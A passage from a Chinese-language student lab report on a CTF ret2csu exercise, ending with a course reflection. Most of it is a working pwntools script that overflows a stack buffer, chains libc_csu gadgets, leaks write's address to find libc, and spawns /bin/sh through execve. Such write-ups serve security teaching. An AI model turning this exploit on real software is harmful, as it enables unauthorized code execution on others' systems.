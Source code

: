 ```python 
# .text:0000000000400610 4C 8B 64 24 18                mov     r12, [rsp+38h+var_20]
# .text:0000000000400615 4C 8B 6C 24 20                mov     r13, [rsp+38h+var_18]
# .text:000000000040061A 4C 8B 74 24 28                mov     r14, [rsp+38h+var_10]
# .text:000000000040061F 4C 8B 7C 24 30                mov     r15, [rsp+38h+var_8]
# .text:0000000000400624 48 83 C4 38                   add     rsp, 38h
# .text:0000000000400628 C3      
#                       retn


def com_gadget(null, rbx, rbp, r12, r13, r14, r15, main):
  #null为0x8空缺
  #main为main函数地址
    payload = b'a' * 0x88 			#0x80+8个字节填满栈空间至ret返回指令
    payload += p64(csu_gadget_2) 
    payload += p64(null) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_gadget_1)
    payload += b'a' * 0x38     # 0x38个字节填充平衡堆栈造成的空缺
    payload += p64(main)
    sh.send(payload)    
    sleep(1)						#暂停等待接收

sh.recvuntil('Hello, World\n')
#利用write函数打印write函数地址并返回main函数
com_gadget(0,0, 1, write_got, 1, write_got, 8, main_addr)

write_addr = u64(sh.recv(8))    #接收write函数地址
libc = LibcSearcher('write', write_addr)	#查找libc版本
libc_base = write_addr - libc.dump('write') #计算该版本libc基地址
execve_addr = libc_base + libc.dump('execve') #查找该版本libc execve函数地址

sh.recvuntil('Hello, World\n')
#read函数布局，将execve函数地址和/bin/sh字符串写进bss段首地址
com_gadget(0,0, 1, read_got, 0, bss_base, 16, main_addr)
sh.send(p64(execve_addr) + b'/bin/sh\x00')#凑足十六位

sh.recvuntil('Hello, World\n')
#调用bss段中的execve('/bin/sh')
com_gadget(0,0, 1, bss_base, bss_base+8, 0, 0, main_addr)
sh.interactive()
```



**执行结果如下：**

![image-20230424214014696](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 21:40:16.png)

## 4. 收获与问题

由于之前是计科专业，从来没接触过网安也没打过CTF，这门课程让我收获了很多。

在实验中遇到了，checksec版本不一样等很多零碎的问题，开始看CTF-Wiki的实例的时候，感觉说的太快看不懂，后来慢慢的多看了几篇博客就理解了。ret2csu也是对ret2libc的一个利用。还是收益良多的，一开始是打算做ret2libc和那些简单题目，但是觉得要挑战一下自我。